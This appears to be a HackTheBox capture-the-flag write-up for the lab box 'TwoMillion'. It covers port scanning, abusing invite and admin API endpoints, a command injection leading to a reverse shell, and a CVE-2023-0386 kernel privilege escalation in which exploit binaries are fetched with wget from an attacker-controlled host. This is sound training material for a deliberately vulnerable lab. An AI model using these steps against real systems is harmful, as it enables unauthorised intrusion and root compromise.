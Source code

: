 ```yaml
---
title: TwoMillion
published: true
layout: post
---
```


<br />

---------------
TwoMillion is an Easy difficulty Linux box that was released to celebrate reaching 2 million users on HackTheBox. The box features an old version of the HackTheBox platform that includes the old hackable invite code. After hacking the invite code an account can be created on the platform. The account can be used to enumerate various API endpoints, one of which can be used to elevate the user to an Administrator. With administrative access the user can perform a command injection in the admin VPN generation endpoint thus gaining a system shell. An .env file is found to contain database credentials and owed to password re-use the attackers can login as user admin on the box. The system kernel is found to be outdated and CVE-2023-0386 can be used to gain a root shell.
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/9IHqrm0D0XY?si=GDmwfyO8pUFXgMW0" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 2 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sT 10.10.11.221 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.221 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sU 10.10.11.221 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

These services are:
+ **22/tcp OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)**
+ **80/tcp nginx**

<br />

There is an **hostname** in the scan results:<br />
![](/assets/TwoMillion/1.png)
<br />
<br />

Let's add the **hostname** to our **/etc/hosts** file:

```bash
echo "10.10.11.221 2million.htb" | sudo tee --append /etc/hosts
```
<br />

------
<br />
### Foothold

Inspecting the website I found a site that brings back old memories:<br />
![](/assets/TwoMillion/2.png)
<br />
<br />

To get an **invitation code** and log in we need to inspect the website source code and find this JS file loaded:

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
<br />

Let's upload this code to ChatGPT to **deobfuscate** it:

```javascript
function verifyInviteCode(code) {
    var formData = { "code": code };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```
<br />

It seems that there are two functions:
- verifyInviteCode(): Sends a POST request to verify an invite code by passing it as a parameter to /api/v1/invite/verify.
- makeInviteCode(): Sends a POST request to the endpoint /api/v1/invite/how/to/generate, likely to get instructions or generate a new invite code.

We can execute the **makeInviteCode()** in our browser's developer tools:<br />
![](/assets/TwoMillion/3.png)
<br />
<br />

It seems that the data is encrypted using ROT13 encryption, which unencrypted is **"In order to generate the invite code, make a POST request to /api/v1/invite/generate"**, so let's follow the instruction:

```bash
curl -X POST http://2million.htb/api/v1/invite/generate
```

![](/assets/TwoMillion/4.png)
<br />
<br />

The code is encoded in base64, let's decode it and use it:

```bash
echo "MTJKQTktSlROT1YtSUoxVkotTVM2Uzg=" | base64 -d
```

![](/assets/TwoMillion/5.png)
<br />
<br />

Great!!! We got a registration panel, let's create an account and log in:<br />
![](/assets/TwoMillion/6.png)
<br />
<br />

However, once I logged in I didn't found anything, but enumerating the website I found sensitive API information:<br />
![](/assets/TwoMillion/7.png)
<br />
<br />

We can leverage **BurpSuite** to became admin:<br />
![](/assets/TwoMillion/8.png)
<br />
<br />

However this didn't return anything relevant, so I inspected the other **API endpoints** and one is vulnerable to **command injection**, so let's get a reverse shell:<br />
![](/assets/TwoMillion/9.png)
<br />
<br />

We got a foothold!! Let's escalate privileges in the next section:<br />
![](/assets/TwoMillion/10.png)
<br />
<br />

------
<br />
### Privilege Escalation

Performing enumeration on the machine, I found an interesting email:

```bash
cat /var/mail/admin
```

![](/assets/TwoMillion/11.png)
<br />
<br />

I used this [GitHub repository](https://github.com/sxlmnwb/CVE-2023-0386) to exploit this vulnerability, however we need some libraries for it to work, and then run some commands:

```bash
sudo apt install libfuse-dev
make all
sudo python3 -m http.server 80
```
<br />

Back to our **reverse shell instance**, we will run this commands:

```bash
mkdir /tmp/fuse
cd /tmp/fuse
wget http://10.10.16.12/fuse
wget http://10.10.16.12/exp
wget http://10.10.16.12/gc
mkdir ovlcap
touch ovlcap/.gitkeep
./fuse ./ovlcap/lower ./gc
```
<br />

Let's finally open another reverse shell instance and run:

```bash
./exp
script /dev/null -c /bin/bash
```

![](/assets/TwoMillion/12.png)
<br />
<br />

